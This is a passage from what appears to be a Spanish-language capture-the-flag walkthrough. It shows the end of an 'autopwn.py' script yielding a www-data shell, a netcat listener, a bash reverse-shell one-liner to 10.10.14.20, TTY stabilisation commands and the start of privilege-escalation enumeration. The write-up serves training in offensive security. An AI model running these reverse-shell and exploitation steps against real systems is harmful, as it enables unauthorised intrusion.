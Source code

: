```python

    if shell.sock is None:
        p1.failure("No ha sido posible ganar acceso al sistema")
        sys.exit(1)
    else:
        shell.interactive()
```

Lo ejecutamos

```bash
python autopwn.py
whoami
#Output
www-data

ifconfig
```

El tito prefiere entablarse una shell normal. Se pone en escucha con `nc -nlvp 443` y lanza en la shell creado por el script
`bash -i >& /dev/tcp/10.10.14.20/443 0>&1`

### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
-> xterm
export TERM=xterm
export SHELL=bash

stty -a

stty rows <numero filas> columns <numero columnas>
```

## Escalada de privilegios {-}

### Enumeracion del usuario en la maquina victima {-}

```bash
cd /home
#Output
david

ls /home/david
#Output
Permisson denied

ls -l /home
#Output
drwx--x--x
```
